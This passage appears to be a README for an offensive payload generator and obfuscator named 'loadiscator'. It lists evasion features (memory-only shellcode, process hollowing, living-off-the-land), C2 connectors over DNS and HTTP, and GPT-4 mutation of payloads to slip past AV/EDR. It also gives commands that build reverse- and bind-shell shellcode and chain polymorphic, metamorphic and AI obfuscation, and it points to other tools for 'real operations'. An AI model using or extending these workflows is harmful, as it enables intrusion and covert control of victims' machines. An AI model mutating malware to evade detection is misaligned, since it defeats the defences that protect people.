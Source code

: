 ### Encoders
- **One-liner:** Converts payloads to single-line scripts for Python, Bash, PowerShell

### Evasion
- **Memory-Only Execution:** Loads and runs shellcode in memory (no disk write)
- **Process Hollowing:** Injects payload into a legitimate process
- **Living-Off-The-Land:** Uses native tools (PowerShell, WMI, etc.) for stealth

### C2 Connectors
- **MirageC2:** Generates payloads for MirageC2
- **DNS Tunnel:** C2 over DNS
- **HTTP Blend:** C2 over HTTP(S)

### AI Optimizer
- **GPT-4 Integration:** Mutates payloads for AV/EDR evasion

---

## Shellcode Generation

A helper script is included for generating test shellcode:

```bash
python generate_shellcode.py reverse 127.0.0.1 4444
python generate_shellcode.py bind 4444
python generate_shellcode.py calc
```
- Output: `.bin` files for use with the memory-only loader

**Shellcode Types:**
- Reverse shell (Windows x64)
- Bind shell (Windows x64)
- calc.exe launcher (Windows x64)

**Note:** For real operations, use msfvenom, Donut, or other tools to generate production shellcode.

---

## Example Workflows

### 1. Fileless Memory-Only Execution
```bash
python generate_shellcode.py calc
python -m loadiscator.cli memory-only --shellcode calc_launcher.bin -o calc_loader.py
```

### 2. Polymorphic + Metamorphic + AI Optimization
```bash
python -m loadiscator.cli obfuscate polymorphic --file reverse.py -o poly.py
python -m loadiscator.cli metamorphic --file poly.py --iterations 2 -o meta.py
python -m loadiscator.cli ai-optimize --file meta.py --target generic -o final.py
```

